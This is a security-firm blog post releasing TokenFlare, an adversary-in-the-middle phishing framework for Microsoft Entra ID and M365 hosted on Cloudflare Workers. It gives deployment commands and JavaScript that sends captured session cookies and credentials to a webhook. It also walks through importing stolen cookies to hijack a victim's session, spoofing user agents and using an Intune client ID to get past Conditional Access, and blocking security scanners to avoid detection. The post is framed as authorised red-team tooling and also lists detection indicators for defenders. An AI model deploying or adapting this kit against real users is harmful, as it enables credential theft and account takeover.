





+++
title = "TokenFlare: Serverless AiTM Phishing in Under 60 Seconds"
date = 2025-12-18
tags = ["azure", "cloud-red-team", "initial-access", "phishing", "tooling"]
+++


At [Beac0n 2025](https://beac0n.org/), I counted the talks. Five were about payloads, C2 frameworks, and endpoint evasion. One covered physical security. One was AI. And one (mine) was about cloud-native identity attacks.

That ratio felt off. Over the past 18 months, our team has run entire red team engagements without ever touching a user's endpoint. No C2, no beacon. Just creds, session cookies, and the Graph API. Threat actors have figured this out too-Midnight Blizzard didn't need a binary payload to compromise Microsoft themselves.

Today, we're releasing **TokenFlare**, a serverless Adversary-in-the-Middle (AiTM) phishing framework for Entra ID / M365, to help close that gap. It's the tool our team at JUMPSEC has used internally for over a year across 15+ adversarial engagements. We're open-sourcing it because we believe the barrier to entry for legitimate security testing shouldn't be higher than it is for the criminals selling plug-and-play phishing kits on dark web forums.

We actually released it on main stage at BSides London last Saturday to what I'd describe as roaring approval. (Full disclosure: most of the roaring came from our own team in the audience.)

**GitHub**: [https://github.com/JumpsecLabs/TokenFlare](https://github.com/JumpsecLabs/TokenFlare)

## TL;DR – Get Started in Under a Minute

For those who want to dive straight in:

```bash
# 0. Clone the repo.
# Dependencies - python3.7+, Node.js 20+, and globally installed Wrangler CLI
git clone https://github.com/JumpsecLabs/TokenFlare.git

# 1. Initialise for your domain - this domain is for deploying on your VPS
python3 tokenflare.py init yourdomain.com

# 2. Configure your campaign (interactive wizard)
python3 tokenflare.py configure campaign

# 3. Set up CloudFlare credentials - i.e. for deploying on Cloudflare
python3 tokenflare.py configure cf

# 4. Deploy to CloudFlare Workers
python3 tokenflare.py deploy remote

# 5. Check your lure URL
python3 tokenflare.py status --get-lure-url
```

That's it. Working AiTM infrastructure, with SSL, bot protection, and credential capture to your webhook of choice. The rest of this post explains why we built it, how it works, and what blue teams should look for.



## Why Release This Now?

If you work in threat intelligence, you'll know AiTM phishing kits are commoditised on underground forums - accessible to anyone with cryptocurrency and a Telegram account. Workers.dev is already a popular choice for threat actor infrastructure. We're not introducing anything novel; we're giving authorised testers the same capabilities.

Meanwhile, legitimate security practitioners often wrestle with complex, temperamental frameworks just to get infrastructure running. To me as a red teamer, fighting with my tooling is probably not what creeates the most value for my client. I'd rather spend my time in crafting compelling pretexts and demonstrating gaps in people, process, and technology if I could.

I'd like to level the playing field for the open security community.

## The TokenFlare Origin Story

Before the serverless stack, setting up AiTM phishing infrastructure was genuinely painful. It used to take us one to two consultant-days of setup time for a single campaign. Phishlets (that other people wrote) were hit-and-miss. Credential capture worked reliably enough, but getting the post-authentication redirect to behave? That was where hours disappeared.

I once gave a 40-minute internal technical talk just to document all the learnings and gotchas for setting up our previous framework properly. I'll be honest - I never wanted to watch that recording myself. The tool was fighting us at every turn when all we wanted was to create an interesting, client-branded campaign.

Now that I've thought about the problem deeply, I think it lies in the fact that traditional AiTM frameworks needed to be everything: web server, campaign configurator, credential store, and campaign manager all in one monolithic binary. It's a lot of complexity for what is fundamentally a reverse proxy with some cookie interception.

### Let's Go Serverless

The breakthrough came when we asked: what if we went serverless?

Cloud providers like CloudFlare already handle SSL termination, load balancing, CDN, bot protection, anti-DDoS, and global routing. If we let them do the infrastructure heavy lifting, our code could focus purely on the AiTM logic itself.

[Zolderio](https://github.com/zolderio/) proved this was viable with a prototype proof-of-concept: a working AiTM reverse proxy for Entra ID in just **174 lines of JavaScript**. That prototype evolved into our v0.1 internal worker, which we used in production operations for months. The core logic was around 250-300 lines.

[Dave @Cyb3rC3lt](https://github.com/Cyb3rC3lt/) built out our v1 production worker, adding the operational features we needed. For a while, our workflow was: edit the worker JavaScript, paste it into the CloudFlare dashboard, click deploy. It worked, but it wasn't infrastructure-as-code, and the browser-based developer experience was horrid if I'm being generous.

### From Dashboard to CLI

The evolution continued. We discovered Wrangler - CloudFlare's CLI tool - which meant we could run Workers locally for testing and deploy remotely with a single command. Configuration moved to a `wrangler.toml` file. Suddenly we had version control, repeatable deployments, and a much better developer experience.

But there was still friction. New team members needed to understand Wrangler commands, know which variables to tweak, and remember the deployment workflow. I wrote documentation, but documentation isn't the same as a tool that guides you through the process.

TokenFlare is that tool: a Python CLI wrapper that handles dependency checks, interactive campaign configuration, SSL certificate management, and deployment - while still letting experienced operators drop into the raw worker code and toml file when they need to.

**The result?** In 2025, our new adversarial simulation consultants can spin up working phishing infrastructure in under an hour with the manual stack. With TokenFlare's interactive wizard, I expect that to shrink to minutes - or even sub-minute for operators who know what they want.

### How Does TokenFlare Compare?

There are established AiTM frameworks out there - Evilginx, Modlishka, and others. Here's where TokenFlare differs:

| | **TokenFlare** | **Traditional Frameworks** |
|---|---|---|
| **Architecture** | Serverless (CloudFlare Workers) | Self-hosted web server |
| **Setup time** | Minutes | At least hours |
| **Core logic** | ~530 lines JS | Larger codebases |
| **Infrastructure** | Cloud provider handles TLS, CDN, DDoS | You manage everything |
| **Credential store** | Webhook-based (Slack, Discord, Teams) | Local database/files |
| **Learning curve** | Interactive wizard | Config files + documentation |
| **Target scope** | Entra ID / M365 focused | Multi-provider support |

TokenFlare is purpose-built for Entra ID phishing simulations where speed and simplicity matter. If you need to target non-Microsoft identity providers or want a full campaign management UI, the established tools may serve you better.

## How TokenFlare Works

### The Serverless AiTM Concept



The core concept is straightforward:

1. User clicks your lure URL and hits the TokenFlare Worker, which runs the 530 lines of JavaScript in worker.js
2. Worker initiates an OAuth2 authorization flow against `login.microsoftonline.com`
3. User sees Microsoft's legitimate login page (with your client branding if configured)
4. User enters credentials and completes MFA
5. Microsoft returns session cookies (`ESTSAUTH`, `ESTSAUTHPERSISTENT`) to the Worker
6. Worker captures and forwards credentials/cookies to your webhook
7. User is redirected to a legitimate destination (e.g., the real SharePoint site they expected)

All the TLS, routing, and edge infrastructure is handled by CloudFlare. Your Worker is just ~530 lines of JavaScript focused on the proxy logic and credential interception.

The core capture logic is straightforward. When Microsoft returns session cookies after successful authentication, we grab them:

```javascript
// Cookie capture - notify on auth cookies
const cookiesSet = getSetCookies(outHeaders);
for (const cookie of cookiesSet) {
  if (cookie.includes('ESTSAUTH=')) {
    for (const secondCookie of cookiesSet) {
      if (secondCookie.includes('ESTSAUTHPERSISTENT=')) {
        await notifyCookies(cfg.webhookUrl, cookie + '\n\n' + secondCookie, log);
      }
    }
  }
}
```

That's it. When both `ESTSAUTH` and `ESTSAUTHPERSISTENT` cookies appear in the response, they're forwarded to your webhook. Credentials from POST bodies and authorization codes from redirect URLs are captured similarly.

On a recent engagement against a global retail brand, we deployed TokenFlare at 9am. By lunchtime we had valid session cookies for three users, including one from engineering. The CAP required compliant devices - we used the macOS UA spoof. Total infrastructure time: 15 minutes.

### What To Do With Captured Cookies

Once you have `ESTSAUTH` and `ESTSAUTHPERSISTENT` cookies, turning them into an authenticated session is straightforward. Screenshot below showing cookies and creds coming into our Slack channel around 9:05, we will also look at the Entra log for the same auth later.



1. Open a fresh browser (or incognito window) with no existing Microsoft sessions
2. Navigate to any M365 service - `office.com` works well
3. Click sign in and let it redirect you to `login.microsoftonline.com`
4. Open DevTools, clear the existing cookies for that domain
5. Import your captured `ESTSAUTH` and `ESTSAUTHPERSISTENT` cookies
6. Refresh the page - you're now authenticated as the victim

From that "hot" browser session, your options open up: dive into SharePoint for sensitive documents, use [TokenSmith](https://github.com/JumpsecLabs/TokenSmith) to redeem access and refresh tokens, or run [GraphRunner](https://github.com/dafthack/GraphRunner) with device code sign-in for full post-exploitation capabilities.

### Local vs Remote Deployment

TokenFlare supports two deployment modes:

**Local deployment** runs the Worker on your VPS using Wrangler's local dev server. You'll need to configure SSL certificates (TokenFlare can automate this via Certbot) and point your domain's DNS to your server. This is great for testing and for scenarios where you want full control.

```bash
sudo python3 tokenflare.py configure ssl
sudo python3 tokenflare.py deploy local
```


**Remote deployment** pushes the Worker to CloudFlare's global edge network. Your domain uses CloudFlare's nameservers, and everything runs on their infrastructure. This is the production deployment mode for most engagements.

```bash
python3 tokenflare.py configure cf
python3 tokenflare.py deploy remote
```


**A Note on CloudFlare Terms of Service**

Using CloudFlare's services to phish third parties - even for authorised testing - may violate their ToS. We're not lawyers, but we want to be upfront: if you deploy to CloudFlare Workers and something goes wrong, your account could be suspended.

Options to consider:
- **Local deployment** is ToS-safe - you're running Wrangler on your own infrastructure
- **Dedicated CF accounts** for engagements keep your production account separate

Consider yourself warned. Don't email us if you get an abuse notice on your prod account!

## Built-in OpSec & Campaign Customisation

### Bot and Scraper Blocking

TokenFlare includes built-in blocking for known bots, scrapers, and security scanners. The defaults block:

- **User-Agent substrings**: `googlebot`, `bingbot`, `bot`, and other crawler signatures
- **AS organisations**: Google proxy, Digital Ocean, and other hosting/proxy providers
- **Mozilla heuristic**: Requests without `Mozilla/5.0` in the UA are rejected (filters most automated scanners)

This list exists because we learned the hard way. Early campaigns using Zolderio's prototype got burned within 30 minutes - security vendors crawled the lure URL and the domain was flagged. We collected the IPs, ASNs, and User-Agents that hit us and built the blocklist from real-world data. It's battle-tested across 15+ engagements. If something new starts burning campaigns, we update it.

### The 'Common' Trick for Client Branding

Getting the target organisation's branding on the Microsoft login page is trivial with the `/common/` endpoint:

```
login.microsoftonline.com/client.domain/oauth2/v2.0/authorize...
```

Replace `common` with the target's domain, and Microsoft helpfully displays their logo and colour scheme. TokenFlare's `configure campaign` wizard handles this for you.

### Conditional Access Policy Considerations

Conditional Access Policies are the core of Entra ID's perimeter defence. The AiTM server needs to satisfy the CAP requirements - if it doesn't, no valid session cookies get minted. TokenFlare supports several approaches:

**User-Agent Manipulation**

Many organisations have CAPs that enforce compliant Windows devices but allow unmanaged iOS or macOS for flexibility. TokenFlare lets you control the User-Agent sent to Microsoft:

```toml
# In wrangler.toml - spoof as iOS Safari
CUSTOM_USER_AGENT = "Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X) AppleWebKit/605.1.15"
```

If the target CAP allows unmanaged iOS devices, you satisfy the policy and get valid tokens - even though the victim authenticated from their Windows machine.

**Intune Compliant Device Bypass**

For environments requiring Intune-compliant devices, TokenFlare supports the [bypass we documented in TokenSmith](https://labs.jumpsec.com/tokensmith-bypassing-intune-compliant-device-conditional-access/). The Intune Company Portal uses a specific client ID (`9ba1a5c7-f17a-4de9-a1f1-6178c8d51223`) and redirect URI that bypasses compliant device checks - because Microsoft can't require a device to be compliant *before* it enrols.

The OAuth flow uses:
```
client_id=9ba1a5c7-f17a-4de9-a1f1-6178c8d51223
redirect_uri=ms-appx-web://Microsoft.AAD.BrokerPlugin/S-1-15-2-...
```

Configure this in TokenFlare via `configure campaign` and you can obtain tokens that would normally require a compliant device. The tokens are part of Microsoft's "Family of Client IDs" (FOCI), meaning they can request access tokens for other resources like MS Graph.


If we configure the flow to use the Intune bypass, the user would be taken to an Intune OAuth flow instead. On a plain Entra signin page we'd expect to see the "Intune" logo, but here it's very conveniently blocked by client branding. Here we see the marty user demo-ing signing in.


## IoCs for Blue Teams

Full transparency - the indicators exist because we put them there. TokenFlare is designed for authorised testing, and we want blue teams to be able to identify it easily, at least when the operator is not deliberately trying to be stealthy (or is relatively unsophisticated).

### Intentional Indicators (Easy Mode)

In your Entra ID sign-in logs, look for:

```
Header:     X-TokenFlare: Authorised-Security-Testing
User-Agent: TokenFlare/1.0 For_Authorised_Testing_Only
```

Also watch for:
- **workers.dev domains in email links**  -  which is a TI-backed recommendation, going beyond TokenFlare.
- **Default URL parameters**  -  the default lure path uses `verifyme?uuid=` structure
- **CloudFlare ASN (AS13335)**  -  authentication requests originating from CloudFlare's IP ranges

If you're seeing these and don't have an active red team engagement, something is wrong.

### Beyond the Breadcrumbs

The intentional IoCs above won't help you catch threat actors who aren't polite enough to announce themselves. For *any* AiTM attack against Entra ID, consider:

- **Sign-in location vs session usage location mismatch**  -  user authenticates from CloudFlare's ASN (or AWS, Azure, etc.) but their session is used from a completely different location minutes later
- **Impossible travel with valid sessions**  -  authentication from one geography, immediate API access from another
- **OAuth token requests for unusual client IDs**  -  especially FOCI clients being used in ways that don't match normal user behaviour
- **High-volume sign-ins from hosting provider ASNs**  -  legitimate users rarely authenticate from DigitalOcean or Cloudflare edge nodes

Our Detection & Response team is working on a companion blog post with specific KQL queries and detection strategies for AiTM attacks. Watch the [JUMPSEC Labs blog](https://labs.jumpsec.com/) for that.





Here you can see Marty's earlier sign in ended up in the sign in logs with the IoC user agent. The flow he went through was indeed the Intune one, and the IP address he signed in with was indeed from Cloudflare's ASN.

## Advanced Use Cases & Future Development

TokenFlare is under active development. Current and planned features include:

- **Better campaign management**: More commands for existing infra, for example `infra cf list`, `infra cf remove <worker>`.
- **Token redemption**: The `/oauth2/v2.0/token` endpoint support for exchanging authorization codes for access and refresh tokens (WIP)
- **Passkey downgrade attacks**: Techniques for environments with FIDO2/passkey requirements
- **Turnstile/reCAPTCHA integration**: For scenarios requiring additional bot protection
- **Static HTML responses**: Custom landing pages before or after the Auth is complete, for if you'd not want to redirect the user away.
- **Entra Terms of Use bypass**: For environments with ToU acceptance requirements

Not all future features will be public - some will remain internal tooling - but we'll continue developing the core framework openly.

## Acknowledgements

TokenFlare wouldn't exist without the contributions of several people:

- **[TE](https://github.com/tdejmp)** – For the debugging sessions, the teaching, and generally being an awesome human being throughout this project
- **[Dave @Cyb3rC3lt](https://github.com/Cyb3rC3lt/)** – For building our v1 internal production Worker that proved the concept at scale
- **[Zolderio](https://github.com/zolderio/)** – For the prototype PoC that started it all and showed us what was possible in under 200 lines of JavaScript
- **The JUMPSEC Adversarial Simulation team** – For battle-testing this across dozens of engagements and providing the feedback that shaped the tool

## Final Words

TokenFlare represents a shift in how we think about phishing simulation infrastructure. The complexity should be in your pretext and social engineering, not in your tooling. Cloud providers have solved the hard infrastructure problems - let them do that work while you focus on demonstrating real security gaps.

If you're a red teamer or penetration tester running phishing simulations, give TokenFlare a try. If you're a defender, use the IoCs above to detect it - and consider whether your current detection capabilities would catch the less-friendly alternatives that don't announce themselves.

**GitHub**: [https://github.com/JumpsecLabs/TokenFlare](https://github.com/JumpsecLabs/TokenFlare)

Questions, feedback, or war stories? Find me on Twitter/X at [@gladstomych](https://twitter.com/gladstomych) or reach out via sunnyc@jumpsec.com.

---

**Disclaimer**: TokenFlare is for authorised security testing only. Unauthorised use against systems you do not own or have explicit permission to test is illegal. Using CloudFlare's services for penetration testing third parties may violate their terms of service - consider yourself warned.


---

*Originally published on [JUMPSEC Labs](https://labs.jumpsec.com/tokenflare-serverless-AiTM-phishing-in-under-60-seconds/)*
